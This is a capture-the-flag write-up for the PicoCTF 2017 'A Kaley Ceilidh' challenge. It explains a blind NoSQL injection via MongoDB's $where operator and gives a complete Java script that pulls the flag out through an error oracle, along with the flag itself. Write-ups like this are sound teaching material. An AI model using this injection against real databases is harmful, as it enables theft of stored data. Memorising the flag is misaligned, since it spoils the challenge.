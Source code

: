 # PicoCTF_2017: A Kaley Ceilidh

**Category:** Web Exploitation
**Points:** 175
**Description:**

>Everyone loves Scottish food [citation needed], but do you ever wish there were more hipster-y options? Well look no further than a [Kaley Ceilidh](http://shell2017.picoctf.com:8080/).

**Hint:**

>There's not a whole lot you can do on this application. If your normal attacks aren't working, perhaps you need to think bigger. Humongous, in fact.
The server probably won't show you anything that contains a "flag" property.

## Write-up
First we had to realize this Node server utilizes Mongodb (The hint says to think HuMONGOus). This meant that our SQL injection techniques will not work for this. For this we had to use a new type of injection called "no-sql" injection. The problem arises because the server will reject any nested object JSON queries that we make.

At first, it seems totally safe (most special quereies require a nested object construct), except for one. The  `$where`  directive allows you to execute arbitrary filtering code (javascript code). Most APIs are blocked in this javascript sandbox, so we couldn't edit the query and have it return our flag.

However, we still had one bit of data that could give us the flag (indirectly). When the executed javascript runs into an error, the server actually returns  `Error`  instead of an empty query. This allows us to create a narrowline distinction between whether if the flag, say matches a particular pattern, and whether it doesn't. Our solution involves using a binary search using regex as our method of testing whether if the flag matches a pattern.

The Java code that executes this binary search is of below:
```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.HttpURLConnection;
import java.net.URL;

public class Kaley
{
	public static URL web;
	public static boolean test(String flag) throws Exception
	{
		HttpURLConnection conn = (HttpURLConnection)web.openConnection();
		conn.setDoOutput(true);
		conn.setDoInput(true);
		conn.setUseCaches(false);
		conn.setRequestMethod("POST");
		conn.setRequestProperty("Content-Type", "application/json");
		conn.connect();
		
		OutputStream os = conn.getOutputStream();
		OutputStreamWriter osw = new OutputStreamWriter(os, "UTF-8");
		osw.write("{\"$where\": \"if (this.flag && /^flag{" + flag + "[A-Za-z0-9_]*}$/.test(this.flag)) throw 3\"}");
		osw.flush();
		osw.close();
		
		StringBuilder sb = new StringBuilder();
		BufferedReader br = new BufferedReader(new InputStreamReader( conn.getInputStream(),"utf-8"));
		String line = null;
		while ((line = br.readLine()) != null) {
		    sb.append(line + "\n");
		}
		br.close();
		return (sb.toString().equals("Error\n"));
	}
	
	public static char binarySearch(String before, char from, char to) throws Exception
	{
		while (from < to)
		{
			char mid = (char)((from + to) / 2);
			if (test(before + "[" + from + "-" + mid + "]"))
				to = mid;
			else
				from = (char)(mid + 1);
		}
		return to;
	}
	
	public static void main(String[] args) throws Exception
	{
		web = new URL("http://shell2017.picoctf.com:8080/search");
		
		String flag = "";
		for (int i = 0; i < 25; i++)
		{
			char res;
			if (test(flag + "[A-Z]"))
				res = binarySearch(flag, 'A', 'Z');
			else if (test(flag + "[0-9]"))
				res = binarySearch(flag, '0', '9');
			else if (test(flag + "[a-z]"))
				res = binarySearch(flag, 'a', 'z');
			else 
				res = '_';
			flag += res;
			System.out.print(res);
		}
		System.out.println();
		System.out.println("flag{" + flag + "}");
	}

}
```

Therefore, the flag is `flag{I_only_eat_0rg4n1c_flages}`.

Also useful one https://github.com/BOAKGP/CTF-Writeups/tree/master/PicoCTF%202017/Level%204/Web%20Exploitation/A%20Kaley%20Ceilidh
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MDU3Mzk0MzYsLTI3NzQ5Mjg5XX0=
-->